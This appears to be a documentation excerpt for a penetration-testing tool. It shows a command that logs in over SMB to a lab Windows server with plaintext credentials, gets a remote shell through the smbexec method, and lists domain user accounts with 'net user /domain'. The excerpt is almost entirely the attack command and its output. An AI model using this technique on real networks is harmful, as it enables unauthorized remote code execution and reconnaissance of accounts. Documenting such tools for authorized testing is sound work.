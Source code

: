 SMBexec provides a domain context
```
# cmx smb 192.168.0.105 -u eminem -p Admin\!23 --exec-method smbexec -i
Apr.03.20 16:35:12  SMB      192.168.0.105 SERVER2019A [*] Windows 10.0 Build 17763 x64 (domain:SWAMP) (signing:False) (SMBv:3.0)
Apr.03.20 16:35:12  SMB      192.168.0.105 SERVER2019A [+] SWAMP\eminem:Admin!23 (Pwn3d!)
Apr.03.20 16:35:12  SMB      192.168.0.105 SERVER2019A [*] Bout to get shellular
   .... i'm in

C:\Windows\system32>net user /domain
The request will be processed at a domain controller for domain swamp.local.


User accounts for \\dc2012a.swamp.local

-------------------------------------------------------------------------------
392648SA                 572543SA                 Administrator
ALANA_WATSON             AMY_KEY                  ANNA_FITZGERALD
arianna                  BEAU_CALDERON            BETTYE_KAUFMAN
BRITTNEY_FERNANDEZ       DINA_POTTER              drake
eminem                   GINO_FLYNN               gucci
Guest                    JO_COOKE                 joyner
krbtgt                   MARVA_ONEILL             NADIA_BRADFORD
NELDA_BARRETT            OLEN_ROSS                PHILIP_BARRETT
TERRELL_WIGGINS          TONIA_BRADY              wayne
YESENIA_CARLSON
The command completed with one or more errors.


C:\Windows\system32>exit
```
